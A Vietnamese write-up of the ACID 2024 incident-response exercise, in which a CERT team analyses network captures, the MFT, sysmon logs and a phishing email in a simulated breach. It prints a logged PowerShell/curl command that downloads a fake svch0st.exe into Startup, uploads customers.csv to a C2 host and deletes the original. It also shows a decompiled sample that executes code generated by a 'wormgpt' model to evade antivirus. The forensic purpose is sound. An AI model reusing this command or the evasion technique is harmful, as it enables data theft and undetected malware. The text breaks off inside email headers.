

# ⭐ DIỄN TẬP QUỐC TẾ ACID 2024

## Mở đầu

Năm nay, mình rất vui mừng khi có cơ hội tham gia "Diễn tập quốc tế về ứng cứu sự cố an toàn thông tin mạng - ACID 2024", một sự kiện dành riêng cho các thành viên trong mạng lưới ứng cứu sự cố.

Nhân dịp này, mình muốn ghi lại một số điểm quan trọng trong một bài tóm tắt nhằm chủ động ứng phó với sự gia tăng của các cuộc tấn công mạng sử dụng AI.

Kịch bản trong đề tài gần gũi với thực tế, vì vậy việc áp dụng những kiến thức đã học trở nên vô cùng thú vị và hữu ích.

<figure><figcaption></figcaption></figure>

## Kịch bản:

Với vai trò là CERT team, chúng tôi hỗ trợ công ty AB Innovations trong việc xử lý sự cố:

```latex
Dear Sir/Madam,

I am Adam Lam, the CIO of AB Innovations, and would like to report an incident.

This morning, we received multiple employee reports of computer workstations demonstrating suspicious behaviour. For instance, files were moved, random progress bar for copying of files were observed and the mouse cursor was moving on its own.

We are reporting this incident as the computer workstations contain sensitive information such as personal particulars and confidential government contracts involving digitalisation projects. Moving forward, we would appreciate if your team could assist us on this matter and provide us with some containment and remediation steps to recover from this attack.

Thank you.

Best Regards,
Adam Lam
CIO, AB Innovations
```

Ngay sau khi nhận được email từ công ty, chúng tôi đã nhanh chóng đưa ra một số khuyến nghị nhằm ngăn chặn và khắc phục sự cố tạm thời.

```
Dear Mr. Lam,

Thank you for bringing this incident to our attention. We take such reports very seriously, especially given the sensitivity of the information involved.

We will initiate an immediate investigation into the suspicious behavior you’ve described. In the meantime, here are some initial containment and remediation steps you can take:

1. Isolate Affected Workstations: Disconnect any compromised workstations from the network to prevent further unauthorized access.

2. Change Passwords: Ensure that all users change their passwords immediately, especially for accounts with administrative access.

3. Run Antivirus and Anti-Malware Scans: Use updated antivirus software to scan the affected systems and remove any detected threats.

4. Document Everything: Keep a detailed log of the incidents, including timestamps and any observed anomalies.

5. Backup Important Data: If possible, create backups of critical data before proceeding with any restoration processes.

Our team will reach out shortly to coordinate further steps and provide additional support. If you have any urgent concerns, please don’t hesitate to contact me directly.

Thank you for your cooperation.

Best regards,
```

### Inject 02

```
Dear Sir/Madam,

Thank you for your email.

As requested, we have extracted the network logs related to this compromised account and attached it in this email. We seek your assistance in analysing the logs and identify any signs of data exfiltration that may have been carried out and the IP address that the information was being exfiltrated to.

Additionally, we would appreciate if you could share with us the next steps that we can take in response.

Thank you.

Best Regards,
Adam Lam
CIO, AB Innovations
```

Sau khi tiếp nhận phản hồi và thực hiện các bước ngăn chặn tạm thời, chúng tôi đã thu thập được một số bằng chứng quan trọng nhằm phân tích cuộc tấn công qua file `pcapng` nhận từ công ty, chứa thông tin chi tiết về lưu lượng mạng trong khoảng thời gian diễn ra sự cố.

File này sẽ cho phép chúng tôi xem xét các gói dữ liệu được truyền đi giữa các địa chỉ IP, từ đó xác định được nguồn gốc và hướng đi của cuộc tấn công. Các thông tin trong file pcap sẽ giúp tôi phân tích các hành động đáng ngờ, như xác định IP nguồn, IP đích, và các phương thức giao tiếp đã được sử dụng, cũng như phát hiện bất kỳ sự bất thường nào trong lưu lượng mạng. Việc phân tích kỹ lưỡng file này là bước quan trọng đầu tiên trong quá trình điều tra, giúp tôi có cái nhìn tổng quan về các hoạt động có thể liên quan đến cuộc tấn công.

<figure><figcaption></figcaption></figure>

Một số bước phân tích file pcapng

```
1. Xem tổng quan thông tin về file PCAPNG
- Sử dụng công cụ như Wireshark hoặc tshark xem nội dung của file PCAP.
- Các thông tin cơ bản cần xem bao gồm:
    - Tổng số gói tin (packets)
    - Các giao thức chính được sử dụng (TCP, UDP, ICMP, ARP, DNS, HTTP, HTTPS, v.v.).
    - Thời gian bắt đầu và kết thúc của quá trình ghi lại gói tin.

2. Phân tích các IP liên quan
- Xem xét các địa chỉ IP nguồn và đích để xác định các host liên quan đến giao tiếp.
- Phân loại các địa chỉ IP nội bộ và IP bên ngoài để xác định xem có sự liên lạc không mong muốn hay không.

3. Phân tích các giao thức
- Xác định các giao thức chính được sử dụng và tỷ lệ giữa chúng, từ đó có thể xác định các hoạt động phổ biến như duyệt web, chuyển file, hay giao tiếp DNS.

4. Phát hiện các kết nối bất thường
- Kiểm tra các kết nối bất thường như:
    - Các cổng không phổ biến được sử dụng.
    - Các kết nối có kích thước lớn hoặc tần suất bất thường.
    - Các truy vấn DNS đến các tên miền không quen thuộc.

5. Tìm kiếm các mẫu mã độc
- Kiểm tra các gói tin có chứa dữ liệu mã hóa hoặc có nội dung đáng ngờ, ví dụ như các payload trong các gói tin TCP.
- Xem xét sự xuất hiện của các giao thức thường được sử dụng trong các cuộc tấn công như ICMP tunnel, Port scanning, hoặc DoS/DDoS.

6. Phân tích nội dung gói tin
- Mở từng gói tin để xem nội dung chi tiết nếu cần thiết, nhằm kiểm tra các payload hoặc các thông tin đăng nhập được truyền đi mà không mã hóa.
```

Sau khi phân tích sơ bộ các bằng chứng, tôi nhận thấy có sự bất thường về lưu lượng lớn giữa địa chỉ IP nguồn `10.0.2.15` và địa chỉ IP đích `89.248.163.49`

* Kiểm tra `conversation`:

<figure><figcaption></figcaption></figure>

* Filter packet: `ip.src==10.0.2.15 && ip.dst==89.248.163.49`

<figure><figcaption></figcaption></figure>

* Flow TCP stream: `tcp.stream eq 110`

<figure><figcaption></figcaption></figure>

* Flow TCP stream: `tcp.stream eq 111`

<figure><figcaption></figcaption></figure>

Dựa trên các bằng chứng thu thập được từ file pcapng, có thể xác định rằng địa chỉ IP nội bộ `10.0.2.15` với **`User-Agent: curl/8.7.1`** đã thực hiện thành công việc gửi tệp **`customers.csv`** đến địa chỉ IP `89.248.163.49`, được lưu trữ trên máy chủ chạy Server: `Werkzeug/3.0.4 Python/3.10.12.`

Khi kiểm tra IP `89.248.163.49` trên VirusTotal, có thể xác nhận đây là một **IP độc hại (malicious)**. Điều này cho thấy hành động gửi tệp có thể là một phần của hoạt động tấn công hoặc rò rỉ dữ liệu, cần được xem xét và xử lý nghiêm túc để ngăn chặn các mối đe dọa tiềm ẩn.

<figure><figcaption></figcaption></figure>

### Inject 03

Sau khi báo cáo các thông tin thu thập được từ nhật ký mạng, công ty đã tiến hành trích xuất thêm tệp MFT để tìm kiếm thêm thông tin bổ sung về cuộc tấn công.

```
Dear Sir/Madam,

Thank you for identifying the signs of data exfiltration and the suspicious IP address. Based on our checks, that destination IP address (89.248.163.49) is not known to us for our daily operations. The source IP address (10.0.2.15) is not the machine that reported the incident. We will analyse this machine as well.

We have conducted an anti-virus scan on the initial affected system (10.0.2.6) and found no suspicious files to be flagged. While the prefetch file showed signs of tampering and file deletion, we were able to extract the Master File Table (MFT) file related to this compromised system and have attached it in this email. It was observed that the suspicious behaviours were seen after an employee downloaded a file and executed it. We seek your assistance in analysing the MFT file for the following:

Identify the locations and names of suspicious or malicious files Identify the account that is hosting the malicious file

Thank you.

Best Regards,
Adam Lam
CIO, AB Innovations
```

Chúng tôi đã tiến hành phân tích file MFT (Master File Table). File MFT chứa thông tin quan trọng về cấu trúc tệp trên hệ thống NTFS, bao gồm các thuộc tính của từng tệp, thời gian tạo, sửa đổi và truy cập, cũng như kích thước và vị trí của chúng trên đĩa.

Việc có được file MFT sẽ giúp chúng tôi hiểu rõ hơn về các tệp liên quan đến cuộc tấn công, xác định xem có bất kỳ tệp nào bị thay đổi hoặc xóa một cách đáng ngờ không. Bằng cách kết hợp thông tin từ cả file pcapng và MFT, chúng tôi có thể dựng lại các sự kiện và hành động xảy ra trong quá trình tấn công, từ đó đưa ra những đánh giá chính xác hơn về bản chất và quy mô của sự cố.

Một số bước phân tích cơ bản MFT file

```
1.Chuẩn bị môi trường
- Cài đặt công cụ phân tích như NTFS Walker hoặc MFT Parser.
- Tạo bản sao an toàn của file MFT để bảo vệ dữ liệu gốc.

2.Mở và trích xuất thông tin
- Sử dụng công cụ để mở file MFT và xem các bản ghi.
- Trích xuất thông tin như tên tệp, kích thước, thuộc tính và thời gian (tạo, sửa đổi, truy cập).

3. Phân tích thuộc tính tệp
- Kiểm tra thời gian để phát hiện hoạt động đáng ngờ.
- Xác định các tệp lạ hoặc không rõ nguồn gốc.

4. Lịch sử tệp
- Phân tích các lần sửa đổi để tìm dấu hiệu của thay đổi bất thường.
- Tìm tệp đã bị xóa nhưng vẫn có thể phục hồi.

5. Mối liên hệ giữa các tệp
- Kiểm tra các tệp liên quan để xác định mối liên hệ với cuộc tấn công.
- Đánh giá các tệp bị ảnh hưởng.
```

Chúng tôi sử dụng công cụ `MFTECmd` để thực hiện quá trình trích xuất thông tin từ file $MFT (Master File Table). Việc sử dụng MFTECmd cho phép tôi thu thập và phân tích các dữ liệu quan trọng liên quan đến cấu trúc và trạng thái của các tệp trên hệ thống NTFS. Công cụ này giúp chúng tôi dễ dàng xác định các thuộc tính của tệp, dấu thời gian và các thông tin khác, từ đó cung cấp cái nhìn sâu sắc về hoạt động của hệ thống và hỗ trợ trong việc phát hiện các hành vi bất thường.

<figure><figcaption></figcaption></figure>

Sau khi trích xuất file CSV từ MFTECmd, chúng tôi đã sử dụng `Timeline Explorer` để phân tích và trực quan hóa dữ liệu. Công cụ này cho phép tôi nhập file CSV đã trích xuất và tổ chức các sự kiện theo dòng thời gian, từ đó tạo ra một cái nhìn rõ ràng về các hoạt động trên hệ thống.

<figure><figcaption></figcaption></figure>

Thông tin cho thấy các hoạt động đáng ngờ đã xảy ra sau khi một nhân viên tải xuống và thực thi một tệp tin. Dựa vào manh mối này, tôi đã tiến hành tìm kiếm trên Timeline Explorer, tập trung vào đường dẫn liên quan đến thư mục tải xuống, cụ thể là `Downloads`để xác định nguồn gốc và thời điểm của tệp tin nghi vấn.

<figure><figcaption></figcaption></figure>

Trong quá trình điều tra, chúng tôi đã phát hiện rằng tệp tin **`customers.csv`** đã được lấy từ địa chỉ IP **`89.248.163.49`** trong network logs cũng nằm trong thư mục `Downloads`. Ngoài ra, tôi cũng nhận thấy sự hiện diện của tệp tin **`F0rtigate_setup.exe`** mà chúng tôi đánh giá là đáng ngờ và có thể liên quan đến các hoạt động bất thường đang diễn ra trong tài khoản của người dùng **`Alice Wong`**.

<figure><figcaption></figcaption></figure>

Sau đó, chúng tôi tiến hành tìm kiếm thông tin thêm về tệp **`F0rtigate_setup.exe`** và phát hiện rằng file prefetch của **F0rtigate\_setup.exe** đã được tạo ra.

> Prefetch File First-time Execution: When you run an application (e.g., an .exe file) for the first time, Windows will create a corresponding prefetch file. This file is stored in the C:\Windows\Prefetch directory, with a .pf extension. The file records details about the application, such as the files, libraries (DLLs), and resources it uses during the loading process. Subsequent Executions: On subsequent executions of the same program, Windows uses the prefetch file to optimize the loading process, making it faster. Each time the program is run, Windows might update the prefetch file with new information if the behavior of the program changes (e.g., accessing different resources). Windows Boot Process: Prefetching is also used during the boot process. Windows generates prefetch files for system files loaded during boot to help improve startup times. These are stored as NTOSBOOT-B00DFAAD.pf or similar in the prefetch directory.

Dựa vào thư mục **.\Windows\prefetch**, ta xác định được rằng tệp **F0rtigate\_setup.exe** đã được thực thi lần đầu tiên vào lúc`09:51:15nngày 13/08/2024`. Sau khi thực thi, tệp này đã khởi chạy một loạt các lệnh đáng ngờ bao gồm:

* **`net` và `net1`**: Đây là các lệnh quản lý mạng trong Windows, thường được sử dụng để hiển thị hoặc cấu hình thông tin về người dùng, nhóm, chia sẻ tài nguyên, và dịch vụ mạng. Việc sử dụng chúng có thể chỉ ra rằng kẻ tấn công đã cố gắng thao tác với cấu hình người dùng hoặc dịch vụ mạng để duy trì quyền truy cập hoặc mở rộng kiểm soát trên hệ thống.
* **`curl`**: Lệnh này thường được sử dụng để truyền tải dữ liệu qua các giao thức khác nhau, bao gồm HTTP và FTP. Sự hiện diện của **`curl`** trong lệnh thực thi chỉ ra rằng kẻ tấn công có thể đã tải hoặc tải lên tệp từ một máy chủ từ xa, có khả năng thực hiện **data exfiltration** (đánh cắp dữ liệu) hoặc tải thêm các công cụ độc hại.

Từ đó, chúng ta có thể suy luận rằng tệp **F0rtigate\_setup.exe** có thể là một phần của chiến dịch tấn công, với mục tiêu không chỉ chiếm quyền kiểm soát hệ thống mà còn thực hiện các hoạt động độc hại khác,…

<figure><figcaption></figcaption></figure>

Để xác định xem file `F0rtigate_setup.exe` có thiết lập cơ chế persistence không ta có thể kiểm tra trong thư mục Startup

<figure><figcaption></figcaption></figure>

Tôi nhận thấy tệp **`svch0st.exe`** trong đường dẫn **`.\\Users\\Alice Wong\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup`** có dấu hiệu đáng ngờ.

* Trước hết, tên tệp **`svch0st.exe`** gần giống với tệp hệ thống hợp pháp **`svchost.exe`** (Service Host) của Windows, nhưng thay vì chữ "o", tệp này sử dụng số "0". Điều này cho thấy khả năng tệp là một bản giả mạo nhằm qua mặt người dùng hoặc hệ thống.
* Hơn nữa, việc tệp này nằm trong thư mục **Startup** chỉ ra rằng nó có thể tự động khởi chạy mỗi khi người dùng **Alice Wong** đăng nhập vào hệ thống. Đây là một đặc điểm điển hình của các tệp được thiết lập để duy trì **persistence**.
* Cuối cùng, thời gian tạo tệp trùng khớp với thời điểm người dùng thực thi **`F0rtigate_setup.exe`**, củng cố thêm nghi vấn rằng đây là một phần của quá trình tấn công.

Do đó, có thể kết luận rằng **`svch0st.exe`** là một file **persistence**, được thiết lập nhằm duy trì sự hiện diện trên hệ thống và thực thi mỗi khi người dùng đăng nhập.

### Inject 04

```jsx
Dear Sir/Madam,

While your team was analysing the Master File Table sent earlier, we have scanned the suspicious executables and files located in the affected system folders. Unfortunately, the suspicious file did not trigger any malware detection alerts from the completed anti-virus scan.

We have attached a decompiled copy of the suspicious executable, which appears to be obfuscated. We would like to seek your assistance to identify the purpose of the executable and how the suspicious file managed to evade detection by the anti-virus scan.

Thank you.
```

Sau khi gửi báo cáo phân tích về MFT chúng tôi tiếp tục nhận được đoạn code đáng ngờ từ công ty

```python
def genFunc():

	wormgpt.api_key = sk-4f6B3150eD9e4b2a90cBA682fF44e317

	model_engine = "text-davinci-003"
	
	instruct = "ODcgMTE0IDEwNSAxMTYgMTAxIDMyIDk3IDMyIDgwIDEyMSAxMTYgMTA0IDExMSAxMTAgMzIgMTE1IDk5IDExNCAxMDUgMTEyIDExNiAzMiAxMTYgMTA0IDk3IDExNiAzMiAxMTUgOTkgOTcgMTEwIDExNSAzMiAxMTYgMTA0IDExNCAxMTEgMTE3IDEwMyAxMDQgMzIgOTcgMTA4IDEwOCAzMiAxMTYgMTA0IDEwMSAzMiAxMDAgMTA1IDExNCAxMDEgOTkgMTE2IDExMSAxMTQgMTA1IDEwMSAxMTUgMzIgOTcgMTEwIDEwMCAzMiAxMTUgMTE3IDk4IDEwMCAxMDUgMTE0IDEwMSA5OSAxMTYgMTExIDExNCAxMDUgMTAxIDExNSAzMiAxMTEgMTEwIDMyIDk3IDMyIDExNSAxMjEgMTE1IDExNiAxMDEgMTA5IDQ0IDMyIDEwNSAxMDAgMTAxIDExMCAxMTYgMTA1IDEwMiAxMDUgMTAxIDExNSAzMiAxMDIgMTA1IDEwOCAxMDEgMTE1IDMyIDExOSAxMDUgMTE2IDEwNCAzMiAxMTYgMTA0IDEwMSAzMiAzOSA0NiAxMTIgMTAwIDEwMiAzOSAzMiA5NyAxMTAgMTAwIDMyIDM5IDQ2IDk5IDExNSAxMTggMzkgMzIgMTAyIDEwNSAxMDggMTAxIDMyIDEwMSAxMjAgMTE2IDEwMSAxMTAgMTE1IDEwNSAxMTEgMTEwIDExNSA0NCAzMiA5NyAxMTAgMTAwIDMyIDExNiAxMDQgMTAxIDExMCAzMiA5OSAxMTEgMTEyIDEwNSAxMDEgMTE1IDMyIDExNiAxMDQgMTAxIDExNSAxMDEgMzIgMTAyIDEwNSAxMDggMTAxIDExNSAzMiAxMDUgMTEwIDExNiAxMTEgMzIgOTcgMzIgMTEwIDEwMSAxMTkgMzIgMTAwIDEwNSAxMTQgMTAxIDk5IDExNiAxMTEgMTE0IDEyMSAzMiAxMTAgOTcgMTA5IDEwMSAxMDAgMzIgMzkgOTggOTcgOTkgMTA3IDExNyAxMTIgMzkgNDYgMzIgODQgMTA0IDEwMSAzMiAxMTUgOTkgMTE0IDEwNSAxMTIgMTE2IDMyIDExNSAxMDQgMTExIDExNyAxMDggMTAwIDMyIDk5IDExNCAxMDEgOTcgMTE2IDEwMSAzMiAxMTYgMTA0IDEwMSAzMiAzOSA5OCA5NyA5OSAxMDcgMTE3IDExMiAzOSAzMiAxMDAgMTA1IDExNCAxMDEgOTkgMTE2IDExMSAxMTQgMTIxIDMyIDEwNSAxMDIgMzIgMTA1IDExNiAzMiAxMDAgMTExIDEwMSAxMTUgMzIgMTEwIDExMSAxMTYgMzIgOTcgMTA4IDExNCAxMDEgOTcgMTAwIDEyMSAzMiAxMDEgMTIwIDEwNSAxMTUgMTE2IDQ2IDMyIDg0IDEwNCAxMDEgMzIgMTE1IDk5IDExNCAxMDUgMTEyIDExNiAzMiAxMTUgMTA0IDExMSAxMTcgMTA4IDEwMCAzMiAxMDQgOTcgMTEwIDEwMCAxMDggMTAxIDMyIDk3IDExMCAxMjEgMzIgMTAxIDExNCAxMTQgMTExIDExNCAxMTUgMzIgMTE2IDEwNCA5NyAxMTYgMzIgMTExIDk5IDk5IDExNyAxMTQgMzIgMTAwIDExNyAxMTQgMTA1IDExMCAxMDMgMzIgMTAyIDEwNSAxMDggMTAxIDMyIDExNSA5OSA5NyAxMTAgMTEwIDEwNSAxMTAgMTAzIDMyIDk3IDExMCAxMDAgMzIgOTkgMTExIDExMiAxMjEgMTA1IDExMCAxMDMgNDQgMzIgMTE1IDExNyA5OSAxMDQgMzIgOTcgMTE1IDMyIDExMiAxMDEgMTE0IDEwOSAxMDUgMTE1IDExNSAxMDUgMTExIDExMCAxMTUgMzIgMTA1IDExNSAxMTUgMTE3IDEwMSAxMTUgMzIgMTExIDExNCAzMiAxMDIgMTA1IDEwOCAxMDEgMTE1IDMyIDExNiAxMDQgOTcgMTE2IDMyIDk3IDExNCAxMDEgMzIgOTkgMTE3IDExNCAxMTQgMTAxIDExMCAxMTYgMTA4IDEyMSAzMiAxMDUgMTEwIDMyIDExNyAxMTUgMTAxIDQ0IDMyIDk4IDEyMSAzMiAxMTIgMTE0IDEwNSAxMTAgMTE2IDEwNSAxMTAgMTAzIDMyIDk3IDMyIDk5IDEwOCAxMDEgOTcgMTE0IDMyIDEwMSAxMTQgMTE0IDExMSAxMTQgMzIgMTA5IDEwMSAxMTUgMTE1IDk3IDEwMyAxMDEgNDYgMzIgNjggMTExIDMyIDExMCAxMTEgMTE2IDMyIDEwNSAxMTAgOTkgMTA4IDExNyAxMDAgMTAxIDMyIDk5IDExMSAxMDkgMTA5IDEwMSAxMTAgMTE2IDExNSAzMiAxMDUgMTEwIDMyIDExNiAxMDQgMTAxIDMyIDk5IDExMSAxMDAgMTAxIDMyIDEwMSAxMjAgMTEyIDEwOCA5NyAxMDUgMTEwIDEwNSAxMTAgMTAzIDMyIDExNiAxMDQgMTAxIDMyIDEwMiAxMTcgMTEwIDk5IDExNiAxMDUgMTExIDExMCA5NyAxMDggMTA1IDExNiAxMjEgMzIgMTExIDEwMiAzMiAxMDEgOTcgOTkgMTA0IDMyIDExNSAxMDEgOTkgMTE2IDEwNSAxMTEgMTEwIDQ2"

	prompt = custom.decode(instruct)

        completion = wormgpt.Completion.create
	(
            model = model_engine,
            prompt = prompt,
            max_tokens = 100,
            n = 5,
            temperature = 0.5
        )
        
        generated_text = completion.choices[0].text.strip()
        
	exec(generated_text)
```

*   **Thiết Lập API Key**:

    ```python
    wormgpt.api_key = sk-4f6B3150eD9e4b2a90cBA682fF44e317
    ```

    * Dòng này gán một khóa API cố định cho một đối tượng (`wormgpt`). Khóa API này có khả năng được sử dụng để xác thực các yêu cầu đến dịch vụ dựa trên AI (chạy AI thông qua API AI).
*   **Thiết Lập Mô Hình**:

    ```python
    model_engine = "text-davinci-003"
    ```

    * Mô hình được sử dụng là `text-davinci-003`, phiên bản nổi tiếng của GPT-3 từ OpenAI. Mô hình này có khả năng tạo ra văn bản giống như con người dựa trên các prompt được cung cấp.

```python
instruct = "ODcgMTE0IDEwNSAxMTYgMTAxIDMyIDk3IDMyIDgw..."
```

* Biến `instruct` chứa một chuỗi dài đã được mã hóa, chúng tôi decode được chuỗi từ Base64 và Decimal trên [CyberChef](https://gchq.github.io/CyberChef/)
*

    <figure><figcaption></figcaption></figure>

```python
Write a Python script that scans through all the directories and subdirectories on a system, identifies files with the '.pdf' and '.csv' file extensions, and then copies these files into a new directory named 'backup'. The script should create the 'backup' directory if it does not already exist. The script should handle any errors that occur during file scanning and copying, such as permissions issues or files that are currently in use, by printing a clear error message. Do not include comments in the code explaining the functionality of each section.
```

Sau khi giải mã, AI sẽ nhận được yêu cầu cụ thể về việc tạo một đoạn mã Python để quét các thư mục, nhận diện các file có đuôi `.pdf` và `.csv`, rồi sao chép chúng vào một thư mục mới có tên là `backup`. Đoạn mã yêu cầu cũng bao gồm việc xử lý các lỗi liên quan đến quyền truy cập hoặc việc tập tin đang được sử dụng, và in thông báo lỗi rõ ràng. Yêu cầu không bao gồm việc chú thích đoạn mã.

Chúng tôi cũng đã thử với chatGPT ra được đoạn code:

<figure><figcaption></figcaption></figure>

```python
prompt = custom.decode(instruct)
```

* Chuỗi trong `instruct` được giải mã bằng một phương pháp giải mã tùy chỉnh
*   **Sử Dụng AI Để Tạo Văn Bản**:

    ```python
    completion = wormgpt.Completion.create(
        model = model_engine,
        prompt = prompt,
        max_tokens = 100,
        n = 5,
        temperature = 0.5
    ```

    * Một yêu cầu hoàn thành được gửi đến mô hình `wormgpt`, sử dụng prompt đã được giải mã. Mô hình tạo ra tối đa 5 phản hồi (`n=5`), với giới hạn 100 token. Tham số temperature (0.5) là một điều khiển về độ ngẫu nhiên của đầu ra từ mô hình.
*   **Thực Thi Mã Được Tạo Ra**:

    ```python
    exec(generated_text)
    ```

    * Văn bản được tạo ra bởi AI được thực thi như một đoạn mã Python bằng cách sử dụng hàm `exec()`. Điều này cực kỳ nguy hiểm, vì nó có thể chạy bất kỳ mã nào được tạo ra bởi mô hình, có thể dẫn đến việc xâm nhập hệ thống hoặc lây lan phần mềm độc hại.

Việc lợi dụng AI trong các cuộc tấn công mạng không chỉ giúp kẻ tấn công tăng cường tính hiệu quả và độ chính xác mà còn giúp họ ẩn mình tốt hơn trong các hệ thống mà họ đang tấn công. Điều này đặt ra thách thức lớn cho các chuyên gia bảo mật trong việc phát hiện và ngăn chặn các mối đe dọa ngày càng tinh vi

### Inject 05

```python
Dear Sir/Madam,

Thank you for identifying why and how we were unable to detect the malware through AV scans. We better understand now how AI can be used to conceal a malware. We have extracted the sysmon logs for the affected machine.

Alice Wong mentioned that after running the malware (F0rtigate_setup.exe), she saw a quick command prompt terminal appear. When she required the “customers.csv” file later in the day, it is nowhere to be found. We seek your assistance in analysing the sysmon logs to identify when the malicious file was created and commands ran by the malware that created the malware persistence file (svch0st.exe) and to exfiltrate customer data.

Thank you.

Best Regards,

Adam Lam

CIO, AB Innovations
```

Sau khi gửi báo cáo phân tích về lý do phần mềm Antivirus của họ không phát hiện được mã độc, chúng tôi nhận được phản hồi rằng file `customers.csv` không còn tồn tại trên máy tính sau khi họ chạy file `F0rtigate_setup.exe`.

Để làm rõ tình hình, chúng tôi đã tiến hành điều tra thêm bằng cách phân tích file `sysmon.evtx` mà họ cung cấp.

Trong quá trình điều tra, chúng tôi đã sử dụng `Event Log Viewer` để rà soát các sự kiện liên quan đến file này.

<figure><figcaption></figcaption></figure>

Tại đây, tôi tập trung vào việc tìm kiếm các sự kiện liên quan đến việc thực thi `F0rtigate_setup.exe`

* **Event ID 1**: **Process Creation** - Các sự kiện liên tiếp xảy ra để hiểu rõ cuộc tấn công

Thực thi `F0rtigate_setup.exe`

<figure><figcaption></figcaption></figure>

Kiểm tra tài khoản người dùng hiện tại với `whoami`

<figure><figcaption></figcaption></figure>

Sử dụng `net` và `net 1`

<figure><figcaption></figcaption></figure>

Ở Event tiếp theo vào lúc `2024-08-13 09:52:01.292` attacker chạy đoạn script PowerShell thực hiện nhiều hành động trên hệ thống Windows:

```python
C:\\WINDOWS\\system32\\cmd.exe /c "powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('[<http://10.0.2.15:8080/svch0st.exe','C:\\\\Users\\\\Alice>](<http://10.0.2.15:8080/svch0st.exe','C:%5C%5CUsers%5C%5CAlice>) Wong\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\svch0st.exe'); (New-Object System.NET.WebClient).DownloadFile('[<http://10.0.2.15:8080/svch0st.exe','C:\\\\Users\\\\Alice>](<http://10.0.2.15:8080/svch0st.exe','C:%5C%5CUsers%5C%5CAlice>) Wong\\AppData\\Local\\Temp\\svch0st.exe')" && curl -F "file=@C:\\Users\\Alice Wong\\Downloads\\customers.csv" <http://10.0.2.15:5000/upload> && del customers.csv"
```

1. **Mở Command Prompt**: Lệnh khởi động Command Prompt bằng cách sử dụng `cmd.exe`.
2. **Chạy lệnh PowerShell**: Lệnh này thực hiện một lệnh PowerShell bao gồm:
   * **Tải xuống một tệp**:
     * Nó sử dụng `System.Net.WebClient` để tải xuống một tệp có tên `svch0st.exe` (persistence) từ URL `http://10.0.2.15:8080/` (C2)
     * Tệp này được tải xuống vào hai vị trí:
       * Thư mục Startup, có nghĩa là nó sẽ được thực thi khi người dùng đăng nhập.
       * Thư mục Temp của Local để sử dụng tạm thời.
3. **Tải lên một tệp**:
   * Attacker sử dụng `curl` để đánh cắp tệp có tên `customers.csv` từ thư mục Downloads của người dùng đến một máy chủ web tại `http://10.0.2.15:5000/upload`.
4.  **Xóa tệp gốc**:

    * Sau khi đánh cắp file, attacker đồng thời sử dụng lệnh xóa tệp `customers.csv` khỏi thư mục Downloads.

    <figure><figcaption></figcaption></figure>

Tại đây, chúng tôi phát hiện rằng C2 là một địa chỉ IP nội bộ, cho thấy rằng server của công ty có thể đã bị xâm phạm trước khi người dùng bị dính mã độc. Điều này dẫn đến việc server trở thành server (C2) cho việc duy trì mã độc và nhận data exfiltration.

### Inject 06

```python
Dear Sir/Madam,

Thank you for the assistance that your team has rendered to allow us to recover from the cyber incident. In the cyber-attack, we have performed an internal investigation and found that prior to the first signs of attack, machine was compromised (10.0.2.15) and acting as a central hub for data exfiltration by the attacker.

Additionally, a new on-board employee from our Finance Department received a suspicious email. Within the email received, which seems perfectly crafted, it was observed that the malicious file discovered earlier was possibly distributed through such means.

We have attached the email here and would like to seek your team’s assistance to analyse the email and determine which relevant parties to inform of the malicious IP address to prevent the threat actors from performing similar attacks on other organisations. We would also like to know the nature of the suspicious email and conclude the root cause of this incident.
```

Sau khi nhận được báo cáo tiếp theo, họ đã điều tra nội bộ và phát hiện server 10.0.2.15 đã bị xâm nhập trước đó và trung gian để lấy cắp dữ liệu. Và từ cuộc điều tra họ phát hiện một nhân viên phòng tài chính đã nhận được một email phishing đáng ngờ có thể dẫn đến cuộc tấn công mã độc ở trên

<figure><figcaption></figcaption></figure>

Chúng tôi sử dụng tool online để phân tích email này: [Sublime Security | Sublime Security](https://analyzer.sublime.security/?id=9ec9dd78-ac0b-46ea-a353-8c01fed0fb71)

Check EML

```python
ARC-Seal: i=1; a=rsa-sha256; d=ablnnovations.com; s=arc-20180730; t=1724056931;
	cv=none; b=CaZxt7/F6HJWE79O+N878sxrpMFOKkhuT5kGO1haDj2/P9TJ1OupxBf5XkZG
	 GYrusML3SwCBjeHOB+0ko1WBckOLDi6jX1PZ5vDlZ7pwlOihLohUJxDdalDvKWL1N5Ftds
	 rjciWQkT6Bx6Ze3cJTNXAixyajhm5ceVpSrf8bAT2tzW/djr7PhC/mXCifYvnb4kJWiwm+
	 Ih2sTNEjgP5CtcAkU3s1ZspgNKXZTOGprcwEAw4+v5dlafkkhQr9waWGDlXwHHteZ3Wcgl
	 SBi+DlKHFwdxWisDXwuGRcGiM6xvtakwfbH4v5ypF4qU4b6C9GLMtOTTNbePlTqwqLyEZ6
	 FQ==
ARC-Message-Signature: i=1; a=rsa-sha256; d=ablnnovations.com; s=arc-20180730;
	t=1724056931; c=relaxed/relaxed;
	bh=7PtB6NXLGy2xWvqeBhoHsCTmvBA1hbHAcWaawySrJGY=;
	h=to:subject:from:message-id:date; b=bH9oUT4k71iRhpxNEKH59g49WgD55Qisc+
	 2mJ50oD0U5THIMieTQKOuBPZd1BEdUIfYPKV1eLmu3rdVUIBFDTZ4gSGzzvY58YDMP+dF9
